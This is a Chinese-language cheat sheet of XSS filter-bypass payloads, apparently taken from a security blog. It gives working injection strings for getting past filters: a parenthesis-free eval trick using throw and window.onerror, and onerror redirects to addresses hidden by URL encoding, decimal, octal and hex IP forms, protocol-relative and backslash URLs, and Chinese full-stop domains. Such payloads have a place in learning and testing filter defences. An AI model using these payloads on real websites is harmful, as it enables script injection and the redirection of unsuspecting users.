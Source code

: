 ## 过滤括号

当括号被过滤的时候可以使用 throw 来绕过

    <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">

## 过滤 url 地址

### 使用 url 编码

    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>

### 使用 IP

1.十进制 IP

    <img src="x" onerror=document.location=`http://2130706433/`>

2.八进制 IP

    <img src="x" onerror=document.location=`http://0177.0.0.01/`>

3.hex

    <img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>

4.html 标签中用`//`可以代替`http://`

    <img src="x" onerror=document.location=`//www.baidu.com`>

5.使用`\\`

    但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议

Windows 下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208102122-3a40fff4-2b48-1.gif)  
Linux 下  
![](https://xzfile.aliyuncs.com/media/upload/picture/20190208103630-5775e02e-2b4a-1.gif)  
6.使用中文逗号代替英文逗号  
如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号

    <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度
